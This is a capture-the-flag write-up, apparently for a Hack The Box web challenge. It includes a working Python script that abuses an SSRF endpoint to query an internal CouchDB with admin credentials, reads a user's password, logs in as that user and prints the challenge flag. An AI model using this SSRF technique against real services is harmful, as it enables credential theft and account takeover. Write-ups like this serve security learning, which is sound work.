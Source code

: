 # The Wax-Circle Reclaimed

```
Atop the standing stones of Black Fen, Elin lights her last tallow lantern. The mists recoil, revealing a network of unseen sigils carved beneath the fen’s grass—her sister’s old routes, long hidden. But the lantern flickers, showing Elin a breach line moving toward the heartstone. Her final task is not to seal a door, but to rewrite the threshold. Drawing from years of etched chalk and mirror-ink, she weaves a new lattice of bindings across the stone. As the Hollow King approaches, she turns the boundary web inward—trapping him in a net of his own forgotten paths.
```

We need to access flag via `/dashboard`, but we need to login as `elin_croft` first. Via `/api/analyze-breach` endpoint, we can access couchdb via SSRF. To read the `elin_croft` user, we can access `http://admin:waxcircle2025@127.0.0.1:5984/users/user_elin_croft` to get password. Then we can login and grab the flag:

```python
import requests
import json

#host = "http://127.0.0.1:80"
host = "http://64.226.86.52:30349"

session = requests.Session()

# login
r = session.post(
    host + "/login",
    data={
        "username": "guest",
        "password": "guest123",
    },
)

# access couchdb via /api/analyze-breach
# get user by id

r = session.post(
    host + "/api/analyze-breach",
    data={
        "data_source": "http://admin:waxcircle2025@127.0.0.1:5984/users/user_elin_croft",
    },
)

resp = json.loads(r.text)
data = json.loads(resp["data"])
print(data)

# login again
r = session.post(
    host + "/login",
    data={
        "username": data["username"],
        "password": data["password"],
    },
)

# access dashboard

r = session.get(
    host + "/dashboard",
)
print(r.text)
```

Flag: `HTB{w4x_c1rcl3s_c4nn0t_h0ld_wh4t_w4s_n3v3r_b0und_381b6948524940ab4035d251eb5f7387}`.
